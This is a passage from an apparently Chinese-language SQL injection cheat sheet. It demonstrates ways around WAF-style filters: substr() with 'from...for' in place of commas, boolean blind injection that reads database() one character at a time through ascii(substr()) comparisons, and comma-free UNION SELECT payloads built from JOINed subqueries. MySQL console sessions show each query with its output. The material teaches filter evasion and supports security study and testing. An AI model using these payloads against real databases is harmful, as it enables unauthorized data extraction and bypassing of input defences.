     # 替换后
    mysql> select substr("string" from 1 for 3);
    +-------------------------------+
    | substr("string" from 1 for 3) |
    +-------------------------------+
    | str                           |
    +-------------------------------+
    1 row in set (0.00 sec)
    
    # SQL盲注
    mysql> select ascii(substr(database() from 1 for 1)) > 120;
    +----------------------------------------------+
    | ascii(substr(database() from 1 for 1)) > 120 |
    +----------------------------------------------+
    |                                            0 |
    +----------------------------------------------+
    1 row in set (0.00 sec)
    
    mysql> select ascii(substr(database() from 1 for 1)) > 110;
    +----------------------------------------------+
    | ascii(substr(database() from 1 for 1)) > 110 |
    +----------------------------------------------+
    |                                            1 |
    +----------------------------------------------+
    
    ```

  - `join`关键字绕过

    ```
    mysql> select * from users  union select * from (select 1)a join (select 2)b join(select 3)c;
    +----+----------+----------+
    | id | username | password |
    +----+----------+----------+
    |  1 | test1    | pass     |
    |  2 | user2    | pass1    |
    |  3 | test3    | pass1    |
    |  1 | 2        | 3        |
    +----+----------+----------+
    
    union select * from (select 1)a join (select 2)b join(select 3)c
    等价于
    union select 1,2,3
    ```
